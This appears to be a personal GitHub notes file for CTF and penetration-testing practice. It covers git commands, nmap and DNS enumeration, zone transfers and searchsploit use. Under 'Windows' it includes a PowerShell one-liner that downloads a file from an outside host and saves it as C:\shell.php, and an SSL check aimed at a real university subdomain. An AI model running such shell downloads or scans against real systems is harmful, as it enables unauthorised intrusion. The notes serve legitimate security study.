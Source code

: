 Personal-Notes
===========================

> Example of how to take and store notes on github (copy this template) 

## Catalog
* [Git and Github](#git-and-github)
* [Windows](#windows)
* [CTF-tips](#tips-and-tricks)
* [Operating procedures](#operating-procedures)
* [HTTP procedures](#http)
* [Ssh procedures](#ssh)
* [Ftp procedures](#ftp)
* [MySQL procedures](#mysql)
* [Samba procedures](#samba)
* [Forensics procedures](#forensics)
* [After Initial Access procedures](#after-gaining-access)


### Windows
* `Downloading a file with powershell`
	```
	powershell -Command "$c=new-object System.Net.WebClient;$c.DownloadFile('http://file.kaibro.tw/s','C:\shell.php')"
	```

*`Repairing boot drive`
	```
	navigate too boot with cmd
	bddedit // to view
	bcdedit /f /delete {xxxxxxxx}
	bcdboot c:\windows
	```  

### Git and Github
* `Creating a first repository`
	* create a new repository on the command line
	```
	echo "# demo" >> README.md
	git init
	git add README.md
	git commit -m "first commit"
	git branch -M main
	git remote add origin https://github.com/hackername/demo.git
	git push -u origin main
	```

	* push an existing repository from the command line
	```
	git remote add origin https://github.com/hackername/demo.git
	git branch -M main
	git push -u origin main
	```


* `Branches`
	```
	git branch newbranch - Creates a new branch
	git checkout newbranch - Changes to that branch
	git branch -vv
	git branch -d dev -delete dev branch
	Add or make changed
	git add .
	git commit -m 'Login added'
	git status - Check if changes were made and staging area is empty
	git checkout master - Switch back to master.login.html and stuff in the login         branch vanishes
	git push   => Pushes any changes made
	git merge login(while in master branch)
	```


* `General Commands`
	```
	echo 'First readme file ' > README.md
	git init
	git add README.md
	git commit -m 'first commit'
	git remote - Checks for remote repositories
	git remote add origin https://github.com/hackername/sample.git
	git push -u origin main/master
	git remote remove unwantedremote
	git push
	git pull
	git log
	git init - initalises a local git repository in a folder by creating a .git folder
	git add filename - Adds file to the index
	git status -   Checks the status of the workiing tree or staging area
	git rm cached filename - Removes a file from the staging area
	git commit - Commits changes to the index
	git commit -m 'Commit message goes here'  => Commiting without the editing part
	git push - Pushes to the remote repository
	git pull - Pulls latest changes ffrom remote repository
	git clone - Clones a repository into a new folder
	.gitignore file - Add the name of the file in this file and that file will be ignore during commits (e.g log files)
	```

### Tips and Tricks
* `tips`
    * Enumeration is Key
    * Be Organized and Document Everything
    * Do as much recon as possible
    * Keep amazing notes
    * Read writeups and watch videos
    * Set small predictable goals
    * Check other peoples methodology of doing the same thing
    * Learn from your weaknesses

* `links`
    * https://blog.nviso.eu/2020/02/13/my-journey-reaching-1-spot-on-hack-the-box-belgium-10-tips-tricks-and-lessons-learned/
    * https://infosecwriteups.com/things-i-learned-after-rooting-25-hack-the-box-machines-e9eada4ea6ca
    * https://technicalnavigator.in/tips-tricks-for-htbhack-the-box/
    * https://bitvijays.github.io/LFC-VulnerableMachines.html (best)


## Operating procedures
- Find the ip in which the vm is operating using sudo arp-scan -l 
- Add the ip to /etc/hosts
- Also add the name of the box with a .box prefix to `/etc/hosts` e.g venom -> venom.box
- Find services running on the machine, start with a simple scan the go to a detailed scan
- Check all ports first with `nmap -Pn -p- stapler -vvv`
- Scan `common ports` using(`sudo nmap 10.10.147.248 -sC -sS -sV -vv`) and metasploit
- Scan `all ports` using (`sudo nmap 10.10.147.248 -p- -sC -sS -sV -vv`) and metasploit
- Check both `https/http` versions of the sites
- Check ssl info for machine `dnsinfo`
- Try to find exploits for the services found using `searchsploit`
- The name of the box could be a service,username,or password
- Check for vulnerabilities using the script option
- If a service is running on two ports, check both ports , they might be slightly different


### Enumerating ssl
```
- openssl s_client -connect defao.dkut.ac.ke:443 // Check subdomain ssl information for more enumeration with the following command
- You can use shodan to locate other ips using the same ssl cert
```

### DNS
```
host <domain> <optional_name_server>
host -t ns <domain>                 Name Servers
host -t a <domain>                  Address
host -t aaaa <domain>               AAAA record points a domain or subdomain to an IPv6 address
host -t mx <domain>                 Mail Servers
host -t soa <domain>                Start of Authority
host <IP>                           Reverse Lookup
host -l <Domain Name> <DNS Server>  Domain Zone Transfer
```


### Http
#### Enumeration guideline
* Check server/service versions, search exploits on searchsploit
* Check for usernames, shares etc.
* Generate wordlists with cewl and use it as passlist in case you have a username
